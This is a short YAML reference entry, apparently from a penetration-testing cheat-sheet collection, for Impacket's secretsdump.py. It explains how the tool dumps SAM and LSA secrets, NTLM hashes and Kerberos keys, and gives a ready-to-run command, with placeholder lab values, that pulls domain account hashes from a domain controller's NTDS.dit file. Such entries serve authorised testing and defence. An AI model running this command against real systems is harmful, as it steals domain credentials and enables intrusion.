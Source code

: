 ```yaml
---
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit. The following command will attempt to use the specified machines NTDS.dit and system file to extract the user account hashes associated with that machine.

  Command Reference:

  	Target IP: 10.10.10.2

  	Domain Controller: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.1 test.local/john:password123@10.10.10.2
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy
---
```

